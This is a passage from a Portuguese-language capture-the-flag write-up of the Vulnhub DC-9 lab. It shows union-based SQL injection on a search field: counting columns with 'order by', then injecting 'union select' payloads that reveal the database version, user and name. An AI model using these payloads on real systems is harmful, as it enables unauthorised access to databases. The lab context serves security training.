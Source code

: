 > Utizamos o comando "order by 6" pois testamos manualmente e iniciando com 1 e  adicionando +1 a cada consulta. Quando utilizamos o "order by 7" a consulta nao foi exibida, ou seja, nao exite a setima coluna na tabela


\newpage

* Vamos testar quais sao os campos que podemos evadir as informacoes 

```bash
search=Fred' union select 1,2,3,4,5,6 #
```

![](/assets/img/Vulnhub/DC-9/campos-evasao.png)


\newpage

* Vamos levantar algumas informacoes sobre o DB. **Versao do SGBD, usuario e banco de dados que esta sendo usado**

```bash
search=Fred' union select 1,2,3,version(),user(),database() #
```
